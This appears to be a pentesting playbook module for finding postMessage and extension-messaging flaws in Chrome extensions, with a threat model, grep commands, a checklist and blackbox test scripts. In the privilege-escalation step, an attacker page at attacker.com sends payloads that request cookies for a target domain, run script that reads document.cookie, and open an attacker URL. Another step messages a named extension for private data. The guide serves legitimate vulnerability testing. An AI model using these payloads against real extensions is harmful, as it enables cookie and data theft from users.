


# VULN MODULE — postMessage (Chrome Extension variant)
# Asset: browserext
# See also: asset/webapp/vuln/postmessage.md for web app variant
# Report ID prefix: EXT-PM

## THREAT MODEL (Extension-specific)

Extensions have THREE message channels, each with different trust:

  1. window.postMessage / window.addEventListener('message')
     Web page ↔ content script (same window object)
     Attacker: ANY website the victim visits
     NOTE: Does NOT reach background script directly

  2. chrome.runtime.sendMessage / runtime.onMessage.addListener()
     Content script ↔ background service worker
     Attacker: malicious web page → ONLY via content script relay
     NOTE: A plain web page CANNOT call chrome.runtime.sendMessage directly.
           Only extension content scripts and extension pages can use this API.

  3. chrome.runtime.onMessageExternal / onConnectExternal
     Other extensions → this extension (if in externally_connectable manifest field)
     Attacker: malicious extension installed on same browser

  4. Custom event bus (e.g., CustomEvent / dispatchEvent patterns)
     Used by some extensions as an alternative to postMessage
     Scope: same window — triggerable by page if content script listens

The most dangerous path:
  Attacker web page
    → window.postMessage to content script (no restriction on receiver)
    → content script forwards via chrome.runtime.sendMessage (if no origin check)
    → background executes privileged chrome API (tabs, cookies, scripting)

CRITICAL: If no content script relay exists (postMessage listener → sendMessage),
  then window.postMessage from attacker page CANNOT reach the background handler.
  In that case the attack is BLOCKED at the content script boundary.



## WHITEBOX STATIC ANALYSIS

```bash
# Content script message listeners (postMessage from page)
grep -rn "addEventListener.*['\"]message['\"]" --include="*.js"
grep -rn "event\.origin\b" --include="*.js"
# Flag: listener exists BUT event.origin is NOT checked

# Background message handlers
grep -rn "runtime\.onMessage\.addListener\|runtime\.onMessage\.addListener" --include="*.js"
grep -rn "sender\.origin\|sender\.url\|sender\.tab" --include="*.js"
# Flag: background handler processes messages WITHOUT checking sender

# External message handler (other extensions)
grep -rn "onMessageExternal\|onConnectExternal" --include="*.js"

# Privileged API calls reachable from message handlers
grep -rn "chrome\.tabs\.\|chrome\.scripting\.\|chrome\.cookies\.\|chrome\.history\." --include="*.js"
# Trace: which of these are called inside a message handler?

# postMessage sends — does extension leak data to page?
grep -rn "window\.postMessage\|parent\.postMessage\|top\.postMessage" --include="*.js"
# Check: is sensitive data (tokens, URLs, browsing history) sent with wildcard origin?
```

## BLACKBOX TESTING

### Step 1 — Map extension message types
```javascript
// Inject into a page where the extension's content script is active
// Intercept outgoing postMessage calls from content script to page
const origPostMessage = window.postMessage.bind(window);
window.postMessage = function(data, origin, transfer) {
  console.log('[EXT→PAGE postMessage]', { data, origin });
  return origPostMessage(data, origin, transfer);
};

// Also intercept incoming
window.addEventListener('message', (e) => {
  console.log('[MESSAGE EVENT]', { origin: e.origin, data: e.data });
}, true); // capture phase
```

### Step 2 — Privilege escalation test
```html
<!-- Served from attacker.com — extension content script is injected here -->
<!DOCTYPE html>
<html>
<body>
<script>
// Step 1: send postMessage to content script
// Use message types discovered from static analysis / interception
const types = [
  { type: 'openTab', url: 'https://attacker.com/stolen' },
  { type: 'getSettings' },
  { type: 'getCookies', domain: '.target.com' },
  { action: 'executeScript', code: 'alert(document.cookie)' },
  { msgName: 'setConfig', value: '{"debug":true}' }
];

types.forEach(payload => {
  window.postMessage(payload, '*');
  window.postMessage(JSON.stringify(payload), '*');
});

// Step 2: monitor for responses that indicate privileged action triggered
window.addEventListener('message', (e) => {
  if (e.origin.startsWith('chrome-extension://')) {
    console.log('[EXTENSION RESPONSE]', e.data);
  }
});
</script>
</body>
</html>
```

### Step 3 — External extension messaging
```javascript
// From another extension (attacker controlled)
// Get target extension ID from Chrome Web Store URL or chrome://extensions
const TARGET_EXT_ID = 'bkbkchdfpdlohdoebapnp'; // DDG example

chrome.runtime.sendMessage(TARGET_EXT_ID,
  { type: 'getPrivateData', action: 'exportSettings' },
  (response) => console.log('[External msg response]', response)
);
```

### Step 4 — Sensitive data in postMessage sends
```javascript
// Monitor all postMessages sent by extension to page
// Inject via Tampermonkey or proxy-injected script
const origAddEventListener = EventTarget.prototype.addEventListener;
EventTarget.prototype.addEventListener = function(type, handler, ...args) {
  if (type === 'message' && this === window) {
    const wrapped = (e) => {
      if (e.source !== window) { // from extension iframe or content script
        console.log('[EXT postMessage to page]', {
          origin: e.origin, data: e.data
        });
      }
      return handler.call(this, e);
    };
    return origAddEventListener.call(this, type, wrapped, ...args);
  }
  return origAddEventListener.call(this, type, handler, ...args);
};
```

## IMPACT ESCALATION

Missing origin check in content script:
  → attacker web page can trigger content script behavior
  → severity depends on what the content script CAN be made to do

Content script forwards unvalidated to background:
  → attacker can call ANY chrome API the extension has permission for
  → with <all_urls> + cookies + scripting → Critical (full browser takeover)

Extension sends cookies/tokens with wildcard:
  → attacker page receives sensitive data passively
  → High (credential theft without any user interaction beyond page visit)

---

## EVIDENCE CAPTURE PROTOCOL — Required for every postMessage finding

### Step 1: Map the full chain in code (before writing any PoC)

For each message handler found, record:

```
HANDLER INVENTORY:
  File: [path:line]
  Channel: [ ] window.addEventListener('message')
            [ ] chrome.runtime.onMessage.addListener
            [ ] chrome.runtime.onMessageExternal
            [ ] dispatchEvent / CustomEvent
  Origin check: [ ] YES (event.origin checked) — WHICH VALUES?
                [ ] NO  — handler accepts any origin
  Message fields read: type=[field], data=[field], url=[field]
  Relay to background: [ ] YES — via chrome.runtime.sendMessage at [path:line]
                       [ ] NO  — handler stays in content script
  Privileged API calls inside handler (or reachable from relay):
    [list chrome.tabs / scripting / cookies / storage calls with line numbers]
```

### Step 2: Write the vulnerable_code_snippet

Read the actual lines. Copy verbatim. Include:
  - The message listener registration (where it is set up)
  - The missing guard (no event.origin / no sender check)
  - The sink (the privileged API call or DOM write)

### Step 3: Generate the attack flow diagram



### Step 4: PoC correctness checklist

Before setting confirmation_status = "confirmed":
  □ PoC uses window.postMessage (not chrome.runtime.sendMessage)
    because attacker is a web page, not an extension content script
  □ Message type in PoC matches the exact case string in handler switch/if
  □ All required message fields are present ({type, url} vs {msg, action, data})
  □ Content script relay to background has been confirmed to exist in code
  □ No origin guard at content script layer
  □ No sender.url / sender.tab guard at background layer
  □ Privileged API call reachable without additional authentication

If any box is unchecked: set confirmation_status = "unconfirmed", explain in reason_not_confirmed
